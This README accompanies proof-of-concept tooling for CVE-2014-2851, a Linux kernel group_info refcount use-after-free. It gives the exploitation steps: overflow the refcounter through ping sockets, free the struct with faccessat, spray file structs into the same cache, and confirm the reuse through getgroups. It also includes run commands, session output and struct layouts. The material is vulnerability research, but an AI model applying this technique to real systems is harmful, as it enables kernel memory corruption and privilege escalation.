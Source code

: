 linux
=====

This repository holds code to help exploiting CVE-2014-2851: Linux group_info refcounter overflow use afer free.

- ping_of.c calls ping_init_sock() argv[1] times. Doing this in python would make things too slow. 

- ping.py contains code to check if the group_info struct has been freed. 

The client function does the following:
- call ping_init_sock() to increase the refcounter
- call faccessat(), this syscall increments, then decrements the refcounter. If the refcounter became zero because of ping_init_sock, the group_info struct will be freed.
- requests the server to open 1000 file descriptors. On my system (32 bit ubuntu), the file structs are allocated in the same memcache as the group_info struct.(kmalloc-192)
- call getgroups(), if group_info has been freed and reused, this counter has been overwritten by another value. This way, we can see if group_info has been freed. 
we wait 15 seconds between faccessat and getgroups because the group_info struct may not have been overwritten yet.
 

The server opens a number of fds on request in order to use the freed memory. This should be called in a separate session because the credentials are shared between parent and child processes.

first, execute ping_of.c . This will increment the refcounter close to zero (e.g. -20).
next, in a different session,  execute "ping.py -s"
finally, in the first session, execute "ping.py -c"

[ Session 1 ]
```
t@tpollet-ubuntu-vm:/tmp$ ./ping_of -20
...
<output omitted>
...
t@tpollet-ubuntu-vm:/tmp$ ./ping.py -c
Starting client

numgroups: 8
numgroups: -1055523072
>
```
[Session 2]
```
t@tpollet-ubuntu-vm:/tmp$ ./ping.py -s
Starting Server
opening 1000 fds
opening 1000 fds
```
                        
The numgroups output by ping.py is returned by the getgroups system call. This comes from the group_info struct being overwritten by a file struct.
The group_info struct looks like this: 

```
include/linux/cred.h
32 struct group_info {
33         atomic_t        usage;            // refcounter
34         int             ngroups;          // return value of getgroups
35         int             nblocks;
36         kgid_t          small_block[NGROUPS_SMALL];
37         kgid_t          *blocks[0];
38 };
```
The file struct looks like this:
```
include/linux/fs.h
775 struct file {
776         union {
777                 struct llist_node       fu_llist;
778                 struct rcu_head         fu_rcuhead;
779         } f_u;
780         struct path             f_path;
781 #define f_dentry        f_path.dentry
782         struct inode            *f_inode;       /* cached value */
783         const struct file_operations    *f_op;
784 
....

include/linux/llist.h
65 struct llist_node {
66         struct llist_node *next;
67 };
```
So, after the free, getgroups() looks up the value on the location where ngroups was before it was freed. This location now holds fu_rcuhead .
We are still able to increment fu_llist by calling ping_init_sock().
